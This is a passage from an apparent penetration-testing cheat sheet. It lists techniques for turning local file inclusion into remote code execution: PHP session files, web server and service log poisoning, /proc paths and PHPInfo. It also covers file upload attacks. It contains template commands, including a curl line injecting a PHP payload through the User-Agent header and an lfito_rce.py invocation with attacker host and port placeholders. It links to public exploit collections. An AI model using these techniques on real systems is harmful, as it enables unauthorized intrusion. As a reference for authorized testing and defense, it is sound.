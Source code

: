         *   `/var/lib/php/sessions/sess_[PHPSESSID]`
        *   `/var/lib/php5/sess_[PHPSESSID]`
        *   `C:\Windows\Temp\sess_[PHPSESSID]`
        *   [Exploitation](https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/php-session) → PHP Code in Registered Username / Data appearing in Response
    *   Apache / Nginx
        *   `[LOG_FOLDER]/[access/error].log` 
        *   `[LOG_FOLDER]/httpd-[access/error].log`
        *   Common Folders
            *   `/var/log/[EMPTY/apache2/apache24/nginx]/`
            *   `C:\xampp\apache\logs\`
            *   `C:\nginx\logs\`
            *   [Fuzzing Wordlist](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI) / Research
        *   Exploit
            *   `curl [HOST] -A “[PHP_PAYLOAD]”`
    *   Network
        *   [FTP](https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/logs-poisoning)    → `/var/log/vsftpd.log`
        *   [SSH](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#rce-via-ssh)    → `/var/log/sshd.log`, `/var/log/auth.log`
        *   [SMTP](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#rce-via-mail) → `/var/log/mail`   
    *   Processes
        *   [User-Agent](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#lfi-to-rce-via-procselfenviron) → `/proc/self/environ`
        *   [PID Exploit](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#lfi-to-rce-via-procfd)  → `/proc/[PID]/fd/[FD]` (Bruteforce)
    *   PHPInfo
        *   `python lfito_rce.py -l "[QUERY_URL]" --lhost=[KALI_IP] --lport=[PORT] -i [PHPINFO_URL]`
        *   [Exploit](https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/phpinfo)

### File Upload

*   Tools
    *   [Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files)
    *   [Mind Map](https://github.com/swisskyrepo/PayloadsAllTheThings/raw/master/Upload%20Insecure%20Files/Images/file-upload-mindmap.png?raw=true)
    *   Burp Upload Scanner
*   Allowed Files
    *   [Backend Executables](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files#defaults-extensions) → Upload Directory Discovery
    *   Configuration Files
        *   [.htaccess](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess) / [httpd.conf](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Busybox%20httpd.conf)  → Apache
        *   [web.config](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config)                       → ASP.NET
        *   [package.json](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files#configuration-files)                   → NodeJS Packages
        *   [composer.json](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files#configuration-files)                → PHP Packages
        *   [\_\_init\_\_.py](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Python%20__init__.py)
        *   [uwsgi.ini](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20uwsgi.ini/uwsgi.ini)
    *   PNG / JPG / DJVU / XML / ZIP
        *   [DJVU + EXIFTOOL RCE](https://github.com/LazyTitan33/ExifTool-DjVu-exploit)
        *   [ImageMagick 7.0.1-1](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files) / [7.1.0-49 beta](https://github.com/kljunowsky/CVE-2022-44268)
        *   [Jetty XML RCE](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files#jetty-rce)